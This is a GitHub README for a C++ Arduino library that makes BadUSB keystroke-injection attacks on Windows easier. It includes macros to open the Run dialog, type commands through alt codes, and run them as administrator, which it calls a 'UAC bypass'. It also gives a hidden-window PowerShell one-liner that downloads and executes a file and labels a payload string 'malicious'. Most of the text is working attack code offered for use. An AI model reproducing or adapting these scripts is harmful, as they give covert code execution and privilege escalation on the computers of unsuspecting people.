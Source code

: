 # EasyBadUsb
simple header only lib written in C++ to make BadUsb scripting easier (Arduino IDE)

### tested only on ATmega32u4 (HW-374) Arduino Leonardo or Micro
![screen](images/dis.jpg)
[image from github.com/ElijahCuff/HW-374](https://github.com/ElijahCuff/HW-374)

# v2 with alt codes (only for Windows)

### first, include alt.hpp in your sketch file
```cpp
#include "alt.hpp"
```

### then between BEGIN() ... END() we write our commands
```cpp
BEGIN()

//
// commands
//

END()
```

### lowercase input on any keyboard layout expense of alt codes (only works on Windows)

#### supported characters (eng letters, numbers and basic special characters)

```cpp
static const alt_code alt_codes_array[] = {
    {' ', 32},  {'B', 66},  {'C', 67},  {'D', 68},  {'E', 69},  {'F', 70},
    {'G', 71},  {'H', 72},  {'I', 73},  {'J', 74},  {'K', 75},  {'L', 76},
    {'M', 77},  {'N', 78},  {'O', 79},  {'P', 80},  {'Q', 81},  {'R', 82},
    {'S', 83},  {'T', 84},  {'U', 85},  {'V', 86},  {'W', 87},  {'X', 88},
    {'Y', 89},  {'Z', 90},  {'a', 97},  {'b', 98},  {'c', 99},  {'d', 100},
    {'e', 101}, {'f', 102}, {'g', 103}, {'h', 104}, {'i', 105}, {'j', 106},
    {'k', 107}, {'l', 108}, {'m', 109}, {'n', 110}, {'o', 111}, {'p', 112},
    {'q', 113}, {'r', 114}, {'s', 115}, {'t', 116}, {'u', 117}, {'v', 118},
    {'w', 119}, {'x', 120}, {'y', 121}, {'z', 122}, {'0', 48},  {'1', 49},
    {'2', 50},  {'3', 51},  {'4', 52},  {'5', 53},  {'6', 54},  {'7', 55},
    {'8', 56},  {'9', 57},  {'!', 33},  {'"', 34},  {'#', 35},  {'$', 36},
    {'%', 37},  {'&', 38},  {'\'', 39}, {'(', 40},  {')', 41},  {'*', 42},
    {'+', 43},  {',', 44},  {'-', 45},  {'.', 46},  {'/', 47},  {':', 58},
    {';', 59},  {'<', 60},  {'=', 61},  {'>', 62},  {'?', 63},  {'@', 64},
    {'[', 91},  {'\\', 92}, {']', 93},  {'^', 94},  {'_', 95},  {'`', 96},
    {'{', 123}, {'|', 124}, {'}', 125}, {'~', 126}, {'A', 65}};
```

#### alt codes lib functional

```cpp
    const char *payload_str = "powershell -windowstyle hidden..."; // malicious string

    // void alt_print(const char *str, size_t t_sleep)
    alt_print(payload_str, 0); // (malicious_string, sleep time for enter next char)
    /* sleep time for enter next char.. because i had problems on Windows 7
    that the system was unable to process alt codes, on Win 10/11 work well */
```





#### buttons definitions
```cpp
#define MKEY_LEFT_CTRL (0x0001 << 0x00)
#define MKEY_LEFT_WIN (0x0001 << 0x01)
#define MKEY_LEFT_SHIFT (0x0001 << 0x02)
#define MKEY_LEFT_ALT (0x0001 << 0x03)
#define MKEY_ENTER (0x0001 << 0x04)

#define MKEY_LEFT_ARROW (0x0001 << 0x05)
#define MKEY_RIGHT_ARROW (0x0001 << 0x06)

#define MKEY_CH_R (0x0001 << 0x07)
#define MKEY_CH_A (0x0001 << 0x08)
#define MKEY_CH_C (0x0001 << 0x09)

#define MKEY_FN_4 (0x0001 << 0x0A)

#define MKEY_CH_Y (0x0001 << 0x0B)
```

### The PRESS functions is used to press special keys and simultaneously press several keys on the keyboard
```cpp
// #define PRESS(BTNS, t_sleep)
PRESS(MKEY_LEFT_CTRL | MKEY_LEFT_SHIFT | MKEY_ENTER, 200) // (buttons to be pressed, sleep time for press next button)

// #define PRESS_KRELALL(BTNS, t_sleep, t_wait)
PRESS_KRELALL(MKEY_LEFT_WIN | MKEY_CH_R, 200, 500) // (buttons to be pressed, sleep time for press next button, sleep time to release the buttons)

// bool release_btn(const uint8_t button)
release_btn(MKEY_ENTER) // (buttons to be released)

// void tprint(const char *str, size_t t_sleep)
tprint("echo Hello World!", 30) // (string, sleep time for enter next char), default print (NOT ALT)

// #define WAIT(ms)
WAIT(500) // delay 500 ms
```


### convenient definitions
```cpp
// #define RUN_ENTER(command, t_sleep_print)
    RUN_ENTER("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))

// #define RUN_ENTER_AS_ADMIN(command, t_sleep_print)
    RUN_ENTER_AS_ADMIN("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))
    // will be run as administrator (UAC bypass if user admin on system)
```


### example
```cpp
#include "alt.hpp"

BEGIN()

    const char *str = "powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('"
    "https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe', '%temp%/py_install.exe'); %temp%/py_install.exe";

    RUN_ENTER(str, 0)

END()
```

### demo
[![demo](https://img.youtube.com/vi/Osa8dZCe86s/0.jpg)](https://www.youtube.com/watch?v=Osa8dZCe86s)

